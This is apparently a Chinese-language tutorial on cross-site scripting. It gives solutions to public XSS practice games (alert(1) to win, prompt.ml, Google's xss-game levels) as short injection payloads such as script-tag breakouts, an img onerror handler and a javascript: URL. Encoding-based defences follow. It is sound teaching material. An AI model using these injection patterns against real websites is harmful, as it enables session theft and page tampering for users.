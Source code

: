 # xss 漏洞攻击与防御
XSS 攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是 JavaScript，但实际上也可以包括Java，VBScript，ActiveX，Flash 或者甚至是普通的 HTML。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和 cookie 等各种内容。
## 攻击方式
XSS 攻击主要是利用用户输入或其他获取信息的方式（如 URL 参数、 Cookie等）注入恶意指令。
可尝试通过以下小游戏深入理解XSS 的攻击方式：
### [alert(1) to win](https://alf.nu/alert1)

```js
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```
该函数直接将用户输入嵌入 `<script>` 代码块中。 可直接通过输入恶意 js 代码进行攻击。
如：
```js
");alert(1,"
// 最终拼接成：
<script>console.log("");alert(1,"");</script>
```

```js
 "),alert(1)("
 // 最终拼接成：
 <script>console.log(" "),alert(1)("");</script>
```

### [prompt(1) to win](http://prompt.ml/0)

```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}       
```
该函数依旧将用户输入直接嵌入 HTML 中，虽然并没有在 `script` 标签中，但直接在用户输入中输入 `script` 标签可直接生效，输入如下：
```js
"><script>prompt(1)</script>
```
生成后的代码为：
```js
<input type="text" value=""><script>prompt(1)</script>">
```

### [xss-game level 1](https://xss-game.appspot.com/level1)
该 level 与以上两个游戏类似，直接将用户输入嵌入 HTML。解决方案也类似：
```js
// input 输入框直接输入以下字符串
<script>alert()</script>
```

### [xss-game level 2](https://xss-game.appspot.com/level2)
该 level 中直接输入 `<script>` 标签无法生效，但是可以利用 `<img>` 的 `onerror` 事件。
```js
<img scr="error" onerror="alert(1)">
```
### [xss-game level 3](https://xss-game.appspot.com/level3)

该 level 中将 URL 参数直接拼接进 HTML 中。
```js
url:https://xss-game.appspot.com/level3/frame#'><script>alert(1)</script>
```

### [xss-game level 4](https://xss-game.appspot.com/level4)

该 level 中将用户输入直接拼接到 `img` 的  `onload` 事件上。
```js
');alert('1
```

### [xss-game level 5](https://xss-game.appspot.com/level5)
```js
URL: https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```

### [xss-game level 6](https://xss-game.appspot.com/level6)

```js
URL: https://xss-game.appspot.com/level6/frame#//google.com/jsapi?callback=alert
```
## 防御手段

### HtmlEncode
将需要直接加载到 HTML 内容或者属性上的内容中的 `&<>""/` 进行转义。

### JavaScriptEncode
将需要加载到 js 中的内容除了数字、字母外的所有字符进行十六进制化处理，使得浏览器最终输出结果上是一样的，但能够防止注入的JavaScript执行。

### CSSEncode
当输入的变量出现在`<style>`标签内或其它css的执行环境中时，XSS的注入和防御原理同JavaScript。在此不累述了。
css中xss的注入，在现在的浏览器中基本已经被禁止了，因此也比较少见。

### URLEncode
当输入的内容需要添加在在url跳转地址中时。采用对$var变量进行URLEncode的方法。URLEncode的作用是将字符转化为%HH的形式，支持的转换举例如下：

```js
空格 --> %20
< --> %3c
> --> %3e
```

## 参考资料
1. [XSS攻击 - 维基百科](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%B6%B2%E7%AB%99%E6%8C%87%E4%BB%A4%E7%A2%BC)
2. [前端安全系列（一）：如何防止XSS攻击？](https://tech.meituan.com/fe_security.html)
3. [跨站脚本攻击(Cross-site scripting)](https://developer.mozilla.org/zh-CN/docs/Glossary/Cross-site_scripting)
4. [4类防御XSS的有效方法](https://www.jianshu.com/p/599fcd03fd3b)
5. [白帽子讲Web安全](https://book.douban.com/subject/10546925/)